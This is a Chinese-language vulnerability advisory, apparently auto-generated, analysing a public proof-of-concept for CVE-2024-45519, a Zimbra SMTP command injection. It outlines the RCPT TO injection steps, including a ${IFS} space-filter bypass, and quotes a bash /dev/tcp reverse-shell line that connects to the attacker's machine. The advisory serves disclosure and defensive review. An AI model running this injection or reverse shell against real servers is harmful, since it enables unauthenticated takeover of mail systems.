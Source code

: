 ## CVE-2024-45519-Zimbra-远程代码执行

**漏洞编号:** CVE-2024-45519

**漏洞类型:** 远程代码执行

**影响应用:** Zimbra Collaboration Suite (ZCS)

**危害等级:** 高危，允许未经身份验证的用户执行任意命令

**影响版本:** ZCS before 8.8.15 Patch 46, 9 before 9.0.0 Patch 41, 10 before 10.0.9, and 10.1 before 10.1.1

**利用条件:** 目标Zimbra服务器的25端口（SMTP）开放，且存在漏洞版本的Zimbra。

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2024-45519 存在于Zimbra Collaboration Suite (ZCS) 的 postjournal 服务中，允许未经身份验证的攻击者执行任意命令。该漏洞是由于对输入的不当处理导致 OS 命令注入。利用方式如下：

1.  **漏洞原理：** 漏洞存在于 Zimbra 的 SMTP 服务中，通过构造恶意的 `RCPT TO` 命令，可以在服务器上执行任意命令。
2.  **利用步骤：**
    *   首先，连接到目标 Zimbra 服务器的 25 端口（SMTP）。
    *   发送 `EHLO` 命令进行握手。
    *   使用 `MAIL FROM` 命令指定发件人地址。
    *   通过构造包含命令注入的 `RCPT TO` 命令来利用漏洞。命令注入发生在双引号内，利用 `${IFS}` 绕过空格过滤。
    *   发送 `DATA` 命令，然后发送一些数据，最后以 `.
` 结束。
    *   最后，发送 `QUIT` 命令断开连接。
3.  **POC 代码分析：**  提供的 Python 脚本首先检查目标主机的 SMTP 端口是否开放。然后，它发送一个包含 OAST（Out-of-Band Application Security Testing）地址的 payload，以验证漏洞是否存在。如果漏洞存在，服务器会尝试访问 OAST 地址，从而确认漏洞。接下来，脚本尝试利用该漏洞建立反向 shell 连接到攻击者的机器上。脚本通过构造包含反向 shell 命令的 `RCPT TO` 命令来实现这一点。`reverse_shell = f'/bin/bash -i >& /dev/tcp/{local_ip}/{local_port} 0>&1'` 这段代码定义了反向 shell 的命令，并将目标机器的标准输入、输出和错误重定向到攻击者的 IP 地址和端口。
4.  **有效性：**根据漏洞库信息、搜索结果和提供的 PoC 代码，可以判断该漏洞利用代码是有效的。搜索结果表明该漏洞已被积极利用。
5.  **投毒风险：**分析 PoC 代码内容，未发现作者隐藏的投毒代码。代码目的是验证漏洞，如果验证通过，会利用此漏洞反弹shell。
综上所述，该漏洞的威胁较高，因为它可以被未经身份验证的攻击者利用，并可能导致完全控制受影响的 Zimbra 服务器。

**项目地址:** [p33d/CVE-2024-45519](https://github.com/p33d/CVE-2024-45519)

**漏洞详情:** [CVE-2024-45519](https://nvd.nist.gov/vuln/detail/CVE-2024-45519)